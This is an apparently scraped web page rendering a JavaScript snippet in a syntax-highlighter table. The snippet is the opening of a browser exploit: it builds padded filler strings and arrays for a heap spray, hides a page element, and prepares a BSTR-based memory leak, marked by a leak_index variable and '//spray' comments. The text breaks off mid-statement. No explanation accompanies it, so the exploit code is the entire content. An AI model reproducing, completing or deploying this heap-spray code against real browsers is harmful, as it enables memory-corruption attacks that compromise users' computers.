 <table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">12345678910111213141516171819202122232425262728293031323334353637383940414243</td><td class="code"><code class="python plain">&lt;script language</code><code class="python keyword">=</code><code class="python string">'javascript'</code><code class="python plain">&gt;</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var leak_index </code><code class="python keyword">=</code> <code class="python keyword">-</code><code class="python value">1</code><code class="python plain">;</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var dap </code><code class="python keyword">=</code> <code class="python string">"EEEE"</code><code class="python plain">;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">while</code> <code class="python plain">( dap.length &lt; </code><code class="python value">480</code> <code class="python plain">) dap </code><code class="python keyword">+</code><code class="python keyword">=</code> <code class="python plain">dap;</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var padding </code><code class="python keyword">=</code> <code class="python string">"AAAA"</code><code class="python plain">;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">while</code> <code class="python plain">( padding.length &lt; </code><code class="python value">480</code> <code class="python plain">) padding </code><code class="python keyword">+</code><code class="python keyword">=</code> <code class="python plain">padding;</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var filler </code><code class="python keyword">=</code> <code class="python string">"BBBB"</code><code class="python plain">;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">while</code> <code class="python plain">( filler.length &lt; </code><code class="python value">480</code> <code class="python plain">) filler </code><code class="python keyword">+</code><code class="python keyword">=</code> <code class="python plain">filler;</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">/</code><code class="python keyword">/</code><code class="python plain">spray</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var arr </code><code class="python keyword">=</code> <code class="python plain">new Array();</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var rra </code><code class="python keyword">=</code> <code class="python plain">new Array();</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var div_container </code><code class="python keyword">=</code> <code class="python plain">document.getElementById(</code><code class="python string">"test"</code><code class="python plain">);</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">div_container.style.cssText </code><code class="python keyword">=</code> <code class="python string">"display:none"</code><code class="python plain">;</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">for</code> <code class="python plain">(var i</code><code class="python keyword">=</code><code class="python value">0</code><code class="python plain">; i &lt; </code><code class="python value">500</code><code class="python plain">; i</code><code class="python keyword">+</code><code class="python keyword">=</code><code class="python value">2</code><code class="python plain">) {</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">E</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">rra[i] </code><code class="python keyword">=</code> <code class="python plain">dap.substring(</code><code class="python value">0</code><code class="python plain">, (</code><code class="python value">0x100</code><code class="python keyword">-</code><code class="python value">6</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">);</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">S, bstr </code><code class="python keyword">=</code> <code class="python plain">A</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">arr[i] </code><code class="python keyword">=</code>